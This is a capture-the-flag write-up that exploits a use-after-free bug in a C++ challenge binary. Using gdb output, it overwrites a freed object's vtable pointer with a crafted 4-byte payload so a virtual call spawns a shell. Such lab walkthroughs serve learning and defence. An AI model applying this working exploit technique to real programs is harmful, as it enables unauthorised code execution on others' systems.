 # Uaf

Let's take a look at the code:

```c++
class Human{
    private:
        virtual void give_shell(){
            system("/bin/sh");
        }
    protected:
        int age;
        string name;
    public:
        virtual void introduce(){
            cout << "My name is " << name << endl;
            cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
    public:
        Man(string name, int age){
            this->name = name;
            this->age = age;
        }
        virtual void introduce(){
            Human::introduce();
            cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
    public:
        Woman(string name, int age){
            this->name = name;
            this->age = age;
        }
        virtual void introduce(){
            Human::introduce();
            cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
    Human* m = new Man("Jack", 25);
    Human* w = new Woman("Jill", 21);

    size_t len;
    char* data;
    unsigned int op;
    while(1){
        cout << "1. use\n2. after\n3. free\n";
        cin >> op;

        switch(op){
            case 1:
                m->introduce();
                w->introduce();
                break;
            case 2:
                len = atoi(argv[1]);
                data = new char[len];
                read(open(argv[2], O_RDONLY), data, len);
                cout << "your data is allocated" << endl;
                break;
            case 3:
                delete m;
                delete w;
                break;
            default:
                break;
        }
    }

    return 0;	
}
```

There is a use-after-free bug there. Since we are able to free the object (option 3), allocate data (option 2) and use the object (option 1), we control a cycle of allocations/deallocations which can probably be exploited by the fact that we also control the contents of the allocated data. Perhaps we can replace the free'd objects in memory somehow.

In `C++`, there's the concept of a `virtual method`: it's any method that can be overwritten in a child class of a base class, maintaining both methods so the correct method to call can be resolved by the language at runtime using a `virtual table`.

Each class containing a `virtual method` will have a `virtual table`, which is simply a list of pointers to the methods it may have to call, whether they are from the base or the child classes.

What we have to do here, then, is shift the pointer to Man's virtual table so that the call to the `introduce` entry actually calls the `give_shell` entry.

Let's take a look at what happens before the calls to `introduce`:

```bash
$ gdb uaf
>>> disas main
[...]
0x0000000000400fcd <+265>:	mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fd1 <+269>:	mov    rax,QWORD PTR [rax]
0x0000000000400fd4 <+272>:	add    rax,0x8
0x0000000000400fd8 <+276>:	mov    rdx,QWORD PTR [rax]
0x0000000000400fdb <+279>:	mov    rax,QWORD PTR [rbp-0x38]
0x0000000000400fdf <+283>:	mov    rdi,rax
0x0000000000400fe2 <+286>:	call   rdx
0x0000000000400fe4 <+288>:	mov    rax,QWORD PTR [rbp-0x30]
0x0000000000400fe8 <+292>:	mov    rax,QWORD PTR [rax]
0x0000000000400feb <+295>:	add    rax,0x8
0x0000000000400fef <+299>:	mov    rdx,QWORD PTR [rax]
0x0000000000400ff2 <+302>:	mov    rax,QWORD PTR [rbp-0x30]
0x0000000000400ff6 <+306>:	mov    rdi,rax
0x0000000000400ff9 <+309>:	call   rdx
[...]
```

The first 7 lines are for m->introduce(), while the last 7 are for w->introduce().
What's going on here?

Well, the first line puts the object into `rax`. The first member of the object, in this implementation, is the pointer to the vtable. The second line puts the vtable into `rax`. It then adds `0x8` to it because that's the offset between the first member of the vtable and `introduce`.

The requested method is then put into `rdx` and the object itself is moved into `rdi` for the `this` pointer. Then rdx, `introduce`, is called.

Sounds good.

Let's put a few breakpoints and figure out important addresses:

```bash
>>> b *main+265
Breakpoint 1 at 0x400fcd
>>> b *main+288
Breakpoint 2 at 0x400fe4
>>> r
1. use
2. after
3. free
1
Breakpoint 1, 0x0000000000400fcd in main ()
>>> x $rbp-0x38
0x7fffffffdaf8:	0x00614c50
>>> x 0x00614c50
0x614c50:	0x00401570
>>> c
Breakpoint 2, 0x0000000000400fe4 in main ()
>>> x $rbp-0x30
0x7fffffffdb00:	0x00614ca0
>>> x 0x00614ca0
0x614ca0:	0x00401550
```

We have the addresses of Man (`0x00614c50`), Woman (`0x00614ca0`) and their vtables (`0x00401570` and `0x00401550`).

Now let's try to free the objects, allocate 4 bytes and see what happens to the registers before the call to `read`, as one of them should hold the destination parameter. We can also know our registers of interest beforehand by knowing our [calling convention](http://agner.org/optimize/calling_conventions.pdf), which in this case is `64 bit Linux`.

We now know the parameters are going to be put into `rdi`, `rsi`, `rdx`, [...], in this order. The second parameter of `read` is the destination, thus we need to check `rsi`.

```bash
$ echo -en "\x00\x00\x00\x00" > bytes
$ gdb uaf
>>> b *main+399
Breakpoint 1 at 0x401053
>>> r 4 bytes
1. use
2. after
3. free
3
1. use
2. after
3. free
2
Breakpoint 1, 0x0000000000401053 in main ()
>>> p/x $rsi
$1 = 0x614ca0
```

Wait... But this is the address of the Woman object!
Our allocator has taken advantage of the most recently free'd chunk in memory to store our data, which means we can overwrite the pointer to Woman's vtable.
Let's keep going and allocate data again to see whether we can also change the Man object.

```bash
>>> c
your data is allocated
1. use
2. after
3. free
2
Breakpoint 1, 0x0000000000401053 in main ()
>>> p/x $rsi
$2 = 0x614c50
```

Now we can also overwrite the pointer to Man's vtable.
Let's check what's in Man's vtable:

```bash
>>> x/4x 0x00401570
0x401570 <_ZTV3Man+16>:	0x0040117a	0x00000000	0x004012d2	0x00000000
>>> x 0x0040117a
0x40117a <_ZN5Human10give_shellEv>:	0xe5894855
>>> x 0x004012d2
0x4012d2 <_ZN3Man9introduceEv>:	0xe5894855
```

But what is it that we have to write to the pointer to the vtable in order to redirect execution to `give_shell`?
If we write `0x00401570`-`0x8` (`0x00401568`) to `0x614c50`, vtable + 0x8 is going to point to `give_shell` and we can get our flag:

```bash
$ echo -en "\x68\x15\x40\x00" > payload
$ ./uaf 4 payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
sh-4.4$ cat flag
```

Also notice that you'll have to exit twice to come back to the menu loop, because Woman's call was also redirected to Man's give_shell entry. :)
